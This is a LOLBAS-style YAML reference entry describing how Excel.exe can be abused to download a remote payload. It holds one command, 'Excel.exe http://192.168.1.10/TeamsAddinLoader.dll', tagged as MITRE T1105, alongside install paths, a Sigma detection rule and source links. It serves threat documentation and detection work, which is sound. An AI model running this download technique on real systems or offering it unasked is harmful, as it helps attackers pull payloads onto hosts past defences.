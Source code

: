 ```yaml
---
Name: Excel.exe
Description: Microsoft Office binary
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_office.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: 'Reegun J (OCBC Bank)'
    Handle: '@reegun21'
---
```

